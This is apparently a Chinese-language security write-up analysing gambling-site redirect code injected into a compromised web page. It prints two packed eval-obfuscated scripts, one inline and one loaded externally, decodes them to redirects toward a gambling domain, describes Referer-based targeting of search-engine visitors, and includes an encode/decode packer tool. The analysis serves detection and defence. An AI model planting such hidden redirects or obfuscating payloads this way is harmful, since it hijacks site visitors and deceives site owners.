

### Referer触发后端直接返回跳转
一般菠菜采用引用JS或者写入源码的JS静态加载固定加载的方式触发加载博彩页面，而近期发现了更为隐蔽的加载方式，仅通过referer检测判断来源，符合则直接返回跳转，不符合来源则不触发博彩页面。

<!--more-->

引用外部脚本：http://aobo.jswpk.com/aobo.js  这里为了方便分析调整了下代码布局。
```javascript
eval(
  function(p,a,c,k,e,d){
    e=function(c){
      return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))
    };
    if(!''.replace(/^/,String)){
      while(c--)d[e(c)]=k[c]||e(c);
      k=\[function(e){return d[e]}];
        e=function(){return'\\w+'};
        c=1;
      };
    while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);
    return p;
  }
  ('8{2.7.1.0="3://6.5.4/"}a(9){}2.1.0="3://6.5.4/";',11,11,'href|location|window|http|cn|ijk5|www|opener|try|e|catch'.split('|'),0,{})
)
```
发现JS的eval(function(p,a,c,k,e,d) 加密，可以通过构造解密函数解密得到：（解密脚本见文末）
```javascript
try{
    window.opener.location.href="http://www.ijk5.cn/"
    }
catch(e){}
window.location.href="http://www.ijk5.cn/";
```
可以看到外部加载的aobo.js可直接另用户访问页面之后直接跳转至http://www.ijk5.cn  ，再看原文js插入的脚本
```javascript
eval(
  function(p,a,c,k,e,r){
    e=String;
    if('0'.replace(0,e)==0){
      while(c--)r[e(c)]=k[c];
      k=[function(e){return r[e]||e}];
      e=function(){return'^$'};c=1
    };
    while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);
    return p
  }('try{window.location.href="http://www.ijk5.cn/"}catch(e){}',[],1,''.split('|'),0,{})
)
```
解码可以得到,另一个插入的跳转js。
```javascript
try{
    window.location.href="http://www.ijk5.cn/"
    }
catch(e){}
```
综上我们总结，该页面篡改的过程为，在页面中插入两处eval加密过的页面跳转，一处嵌入页面，一处通过引入外部js，最终在一些额外的判断结合下达到判断访问客户端，定向给某一类客户端用户做跳转页面的效果。这里攻击者既可以在js中加入对referer，UA等判断做定向，也可通过劫持baidu广告的流量做为中转定向到外部JS在做定向判断，达到隐蔽效果。在甄别过程中仍然需要根据复现情况仔细判断样本的情况。


此次样本存在于网站的html页面中，通过嵌入eval加密及外部eval加密的js脚本加载跳转，通过判断触发规则：Referer: ```sogou.com```或者其他搜索引擎如```baidu.com、google.com```等做定向客户端跳转。

#### 附录：
eval(function(p,a,c,k,e,d))的解密脚本：（保存代码为demo.html,打开即可）
```html
<html>
<body>
<script> 
a=62; 
function encode() { 
 var code = document.getElementById('code').value; 
 code = code.replace(/[\r\n]+/g, ''); 
 code = code.replace(/'/g, "\\'"); 
 var tmp = code.match(/\b(\w+)\b/g); 
 tmp.sort(); 
 var dict = []; 
 var i, t = ''; 
 for(var i=0; i<tmp.length; i++) { 
   if(tmp[i] != t) dict.push(t = tmp[i]); 
 } 
 var len = dict.length; 
 var ch; 
 for(i=0; i<len; i++) { 
   ch = num(i); 
   code = code.replace(new RegExp('\\b'+dict[i]+'\\b','g'), ch); 
   if(ch == dict[i]) dict[i] = ''; 
 } 
 document.getElementById('new_code').value = "eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\\\b'+e(c)+'\\\\b','g'),k[c]);return p}(" 
   + "'"+code+"',"+a+","+len+",'"+ dict.join('|')+"'.split('|'),0,{}))"; 
} 

function num(c) { 
 return(c<a?'':num(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36)); 
} 

function run() { 
 eval(document.getElementById('code').value); 
} 

function decode() { 
 var code = document.getElementById('code').value; 
 code = code.replace(/^eval/, ''); 
 document.getElementById('new_code').value = eval(code); 
} 
</script> 
<div>JS文件加密解密</div>
<div>原脚本</div>
<textarea id="code" cols=80 rows=10> 
</textarea>
<div>加密/解密后脚本</div>
<textarea id="new_code" cols=80 rows=10> 
</textarea>
 <div>
<input type=button onclick=encode() value=编码> 
<input type=button onclick=run() value=执行> 
<input type=button onclick=decode() value=解码> 
</div>
</body>
</html>
```


##### 参考文章
[eval(function(p,a,c,k,e,r)解密程序](https://www.cnblogs.com/zs-note/p/3895500.html)
[密码学笔记——eval(function(p,a,c,k,e,d) 的加密破解](http://www.bubuko.com/infodetail-2288954.html)
